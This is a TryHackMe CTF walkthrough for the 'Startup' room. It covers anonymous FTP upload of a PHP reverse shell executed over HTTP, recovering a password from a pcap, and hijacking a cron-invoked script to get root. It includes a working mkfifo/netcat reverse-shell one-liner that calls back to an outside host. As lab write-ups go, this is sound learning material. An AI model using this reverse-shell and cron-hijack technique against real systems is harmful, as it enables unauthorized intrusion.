






# Startup

## **Challenge Information:**

**Link:** [https://tryhackme.com/room/startup](https://tryhackme.com/room/anonymous)

**Difficulty:** Easy

**Category:** Linux

**Description:** Abuse traditional vulnerabilities via untraditional means.

Additional Info: 



---

## TLDR

FTP was running on port 21 with `anonymous` login enabled with an empty writable directory. The files in FTP could be accessed via the `/Files` endpoint in the website at port 80. A reverse shell was uploaded via the FTP and executed via HTTP to gain access to the system as `www-data`. A `pcap` file was found in the `incidents` directory and analyzed using `Wireshark`, thereby obtaining credentials for user `lennie`.  A script owned by root called another script owned by lennie which was overwritten with a reverse shell to get root’s shell and compromising the system. 

## Initial Reconnissance

Nmap scan:

```
nmap -A -v <IP> -oN nmapresult.txt
```



There are 3 ports open: `21, 22, 80`. 

### FTP Reconnaissance

Since FTP has anonymous login enabled, I decided to check that out first. Furthermore, the `ftp` directory was also world writeable. 

```
┌──(Mikayn㉿DESKTOP-HD4J4TP)-[~/thm/startup]
└─$ ftp 10.48.168.96
Connected to 10.48.168.96.
220 (vsFTPd 3.0.3)
Name (10.48.168.96:Mikayn): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -al
229 Entering Extended Passive Mode (|||63503|)
150 Here comes the directory listing.
drwxr-xr-x    3 65534    65534        4096 Nov 12  2020 .
drwxr-xr-x    3 65534    65534        4096 Nov 12  2020 ..
-rw-r--r--    1 0        0               5 Nov 12  2020 .test.log
drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp
-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
226 Directory send OK.
ftp> ls ftp
229 Entering Extended Passive Mode (|||48539|)
150 Here comes the directory listing.
226 Directory send OK.
```

The `ftp` directory is empty. But since it is writeable, I could upload a reverse shell here, and execute it via another channel, like the website. 

I downloaded the `important.jpg` and `notice.txt` in my machine to view them. 

```
ftp> get important.jpg
local: important.jpg remote: important.jpg
229 Entering Extended Passive Mode (|||52854|)
150 Opening BINARY mode data connection for important.jpg (251631 bytes).
100% |****************************************************|   245 KiB  329.24 KiB/s    00:00 ETA
226 Transfer complete.
251631 bytes received in 00:00 (312.66 KiB/s)
ftp> get notice.txt
local: notice.txt remote: notice.txt
229 Entering Extended Passive Mode (|||34742|)
150 Opening BINARY mode data connection for notice.txt (208 bytes).
100% |****************************************************|   208        2.75 MiB/s    00:00 ETA
226 Transfer complete.
208 bytes received in 00:00 (4.15 KiB/s)
ftp> exit
221 Goodbye.
```

`notice.txt` gives a pretty important piece of informaiton. 

```
┌──(Mikayn㉿DESKTOP-HD4J4TP)-[~/thm/startup]
└─$ cat notice.txt
Whoever is leaving these damn Among Us memes in this share, it IS NOT FUNNY. People downloading documents from our website will think we are a joke! Now I dont know who it is, but Maya is looking pretty sus
```

I got a username `Maya` . Given the context of the notice, I assume `important.jpg` is also an Among Us meme. I still checked to leave no stones unturned.


Poor impostor :( 

I moved on to the website at port `80` next. My main target right now is to find a way to access the `ftp` directory, since that would give me access to the system via the reverse shell I upload there. 

### HTTP Reconnaissance



The site is being developed. Any pepper enthusiasts must be gutted that the site is not ready yet. 

There was a message in the source code as well, but its not helpful.



With that a deadend, I scanned for any endpoints. 

```
┌──(Mikayn㉿DESKTOP-HD4J4TP)-[~/thm/startup]
└─$ dirsearch -u http://10.48.168.96/ -w /usr/share/dirb/wordlists/common.txt

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 4613

Target: http://10.48.168.96/

[16:18:32] Starting:
[16:18:40] 301 -  312B  - /files  ->  http://10.48.168.96/files/
[16:18:48] 403 -  277B  - /server-status

Task Completed
```

`dirsearch` discoered an endpoint `Files`. 



Jackpot. I could upload my reverseshell via `ftp` and then run it from the web. This would execute the shell, giving me access to the system. 

I used [Pentest Monkey's PHP Reverse Shell.](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) 

```
ftp> cd ftp
250 Directory successfully changed.
ftp> put pentestmonkey.php
local: pentestmonkey.php remote: pentestmonkey.php
229 Entering Extended Passive Mode (|||45545|)
150 Ok to send data.
100% |****************************************************|  5496       18.71 MiB/s    00:00 ETA
226 Transfer complete.
5496 bytes sent in 00:00 (60.64 KiB/s)
ftp> ls
229 Entering Extended Passive Mode (|||41906|)
150 Here comes the directory listing.
-rwxrwxr-x    1 112      118          5496 May 28 10:51 pentestmonkey.php
226 Directory send OK.
```

I refreshed `ftp` directory in the website to see if it got uploaded. 



I set up a listener and ran the reverse shell. 

```
┌──(Mikayn㉿DESKTOP-HD4J4TP)-[~/thm/startup]
└─$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [172.24.30.148] from (UNKNOWN) [172.24.16.1] 64950
Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 10:53:55 up 40 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$
```

## Shell as www-data

I found a `recipe.txt` in the root folder. 


This is needed to answer the first question on TryHackMe. 

```
$ cat recipe.txt
Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was REDACTED.
```

I upgraded the shell to bash using python. 
`python3 -c 'import pty; pty.spawn("/bin/bash")'`

There was also another folder `incidents` in the root directory, owned by `www-data`. 

```
www-data@startup:/incidents$ ls
ls
suspicious.pcapng
```

I started a python server and downloaded it on my machine. Opening it with `wireshark`, I immediately noticed something. 


Someone had tried to gain access to the system before, by also uploading a reverse shell and running it through HTTP (Packet 34). I viewed subsequet TCP streams to see the flow of the attacker. 


In `TCP Stream 7`, the attacker tries running `sudo -l` and enters a password. The password is weirdly specific. So I think this is not an attacker, but someone who has normal access to the machine. 

Anyways, it doesnt matter whoever it is. I tried this password for the only other user on the system `lennie`. 

```
www-data@startup:/$ su lennie
su lennie
Password: PASSWORD

lennie@startup:/$
```

## Shell as lennie

As always, I claimed the user flag first. 

```
lennie@startup:~$ ls
ls
Documents  scripts  user.txt
lennie@startup:~$ cat user.txt
cat user.txt
THM{REDACTED}
```

I checked the `scripts` folder because that is quite interesting. 

```
lennie@startup:~$ ls -al scripts
ls -al scripts
total 16
drwxr-xr-x 2 root   root   4096 Nov 12  2020 .
drwx------ 5 lennie lennie 4096 May 28 12:29 ..
-rwxr-xr-x 1 root   root     77 Nov 12  2020 planner.sh
-rw-r--r-- 1 root   root      1 May 28 12:32 startup_list.txt
lennie@startup:~$ cat scripts/planner.sh
cat scripts/planner.sh
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
```

So `planner.sh` writes whatever value the environment variable `$LIST` has to `startup_list.txt`. Both of these are owned by root, but Lennie cannot write to them, unfortunately. 

`startup_list.txt` was empty. So, if `$LIST` was also empty, it could mean that `planner.sh` runs periodically via a cronjob. 

```
lennie@startup:~$ cat scripts/startup_list.txt

lennie@startup:~$ echo $LIST

lennie@startup:~$ 
```

My suspicions were rising, but I could not edit `planner.sh` directly.

However, all hope is not lost. `planner.sh` also references another command `/etc/print.sh`. 

```
lennie@startup:~$ cat /etc/print.sh
cat /etc/print.sh
#!/bin/bash
echo "Done!"
lennie@startup:~$ ls -al /etc/print.sh
-rwx------ 1 lennie lennie 25 Nov 12  2020 /etc/print.sh
```

So lennie can write to `/etc/print.sh` which means I could test the cronjob theory by uploading my reverse shell. If `planner.sh` had been running from a cronjob, it should also call `/etc/print.sh` and run the reverse shell. 

```
lennie@startup:~$ cat /etc/print.sh
#!/bin/bash

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.253.246 4444 >/tmp/f
```

After waiting a couple seconds, I see the results that I had hoped for. 

```
┌──(Mikayn㉿DESKTOP-HD4J4TP)-[~/thm/startup]
└─$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [<MY IP>] from (UNKNOWN) [172.24.16.1] 50708
bash: cannot set terminal process group (2871): Inappropriate ioctl for device
bash: no job control in this shell
root@startup:~# id
id
uid=0(root) gid=0(root) groups=0(root)
```

Then I swiftly claimed the root flag. 

```
cat root.txt
THM{REDACTED}
```

## Exploitation Chain

| **Step** | **Action** | **Result** |
| --- | --- | --- |
| 1 | Nmap scan | Ports `21, 22, 80` open. |
| 2 | Investigate FTP | Anonymous login + Writeable directory |
| 3 | Fuzz endpoints on HTTP | Discover `/Files` linked to the FTP directory |
| 4 | Upload revere shell on FTP and execute via HTTP | Shell as `www-data` |
| 5 | Investigate the system | Find a `pcap` file with password inside. |
| 6 | Use the password to login  | Shell as `lennie` |
| 7 | Look into `scripts` directory | Possible cronjob with a writable script |
| 8 | Overwrite `/etc/print.sh`  with reverse shell | Root shell + Root flag  |